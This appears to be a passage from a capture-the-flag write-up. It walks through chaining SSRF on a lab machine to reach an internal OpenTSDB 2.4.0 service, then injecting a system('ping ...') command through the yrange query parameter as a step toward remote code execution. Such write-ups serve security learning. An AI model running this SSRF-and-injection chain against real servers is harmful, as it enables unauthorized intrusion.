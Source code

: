 We got the `index.html` source of target port 80. This simply means, we can access any locally running service.
![[admirertoo/images/image3.png]]

As we saw in our initial port scan that three ports are filtered. Let’s try to access them via SSRF. Setup redirector for any of the three filtered ports.
```bash
$ python3 redirector.py 80 'http://127.0.0.1:4242'
```

Intercept the login request once again and check the webpage.
We got the response and the title of the page is "OpenTSDB".
![[admirertoo/images/image4.png]]

According to [CVE Details](https://www.cvedetails.com/vulnerability-list/vendor_id-18666/product_id-47794/Opentsdb-Opentsdb.html) there are 4 vulnerabilities for "OpenTSDB". Two of them are Code Execution. But we need to find the right version information of running application. To get version information, we can use the below endpoint.
```bash
$ python3 redirector.py 80 'http://127.0.0.1:4242/api/version'
```

After setting the redirector for the version endpoint, capture the login request and modify it a previously and forward it to server.
```json
{"short_revision":"14ab3ef","repo":"/home/hobbes/OFFICIAL/build","host":"clhbase","version":"2.4.0","full_revision":"14ab3ef8a865816cf920aa69f2e019b7261a7847","repo_status":"MINT","user":"hobbes","branch":"master","timestamp":"1545014415"}
```

Alright, we got the version information. It is using 2.4.0 and RCE via command injection exists in this version. The POC is already available for this vulnerability [here](https://github.com/OpenTSDB/opentsdb/issues/2051).
Lets modify the POC to send a ping to our machine first:
```bash
$ python3 redirector.py 80 'http://127.0.0.1:4242/q?start=2000/10/21-00:00:00&end=2020/10/25-15:56:44&m=sum:sys.cpu.nice&o=&ylabel=&xrange=10:10&yrange=%5B33:system(%27ping+-c+4+10.10.14.3%27)%5D&wxh=1516x644&style=linespoint&baba=lala&grid=t&json'
```

After forwarding the request, we’d get this error page. The important part of this is mentioned at the end of the error:
```json
...[snip]...

No such name for 'metrics': 'sys.cpu.nice'\n\tat net.opentsdb.uid.UniqueId$1GetIdCB.call(UniqueId.java:450) ~[tsdb-2.4.0.jar:14ab3ef]\n\tat net.opentsdb.uid.UniqueId$1GetIdCB.call(UniqueId.java:447) ~[tsdb-2.4.0.jar:14ab3ef]\n\t... 34 common frames omitted\n"}
```

The error is triggered because the `metrics` which we used (sys.cpu.nice) is not available, so it couldn’t complete the code execution. Lets find the metrics looking at the [documentation](http://opentsdb.net/docs/build/html/api_http/suggest.html).
```bash
$ python3 redirector.py 80 'http://127.0.0.1:4242/api/suggest?type=metrics'
```
